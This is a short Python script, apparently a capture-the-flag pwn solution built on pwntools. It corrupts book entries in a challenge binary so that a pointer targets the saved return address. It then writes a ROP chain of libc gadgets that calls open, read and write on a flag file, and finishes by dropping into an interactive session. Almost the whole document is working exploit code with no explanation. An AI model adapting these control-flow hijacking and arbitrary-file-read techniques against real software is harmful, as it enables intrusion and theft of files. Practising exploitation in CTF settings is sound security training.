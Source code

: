 ```python
################
book_start = 0x004040e0
fake_book2 = p64(0x200) + p64(ret)  # size=0x200 & ptr=saved_rip
bss_payload = payload + fake_book2 + b"./flag\0"  # dua flag vao rw_section
# writes to secret_msg. book[1] now has ptr=saved_rip & size=0x200. book[2] now equals flag path.
edit(1, bss_payload)
POP_RDI = p64(libc.address + 0x001bc021)
POP_RSI = p64(libc.address + 0x001bb317)
POP_RDX_RBX = p64(libc.address + 0x00175548)
POP_RAX = p64(libc.address + 0x001284f0)
SYSCALL = p64(libc.address + 0x00140ffb)

flag_where = book_start + 0x10 * 10  # buffer to read the flag file into
payload = flat(
    # open("/flag", 0)
    POP_RAX, 2,
    POP_RDI, book_start + 0x10 * 2,
    POP_RSI, 0,
    SYSCALL,

    # read(3, flag_where, 0x50)
    POP_RAX, 0,
    POP_RDI, 3,
    POP_RSI, flag_where,
    POP_RDX_RBX, 0x50, 0,
    SYSCALL,

    # write(1, flag_where, 0x50)
    POP_RAX, 1,
    POP_RDI, 1,
    SYSCALL,
    # 0x0000000000401b88
)
edit(2, payload)
# sla(b"Option:", b"4")
p.interactive()
```
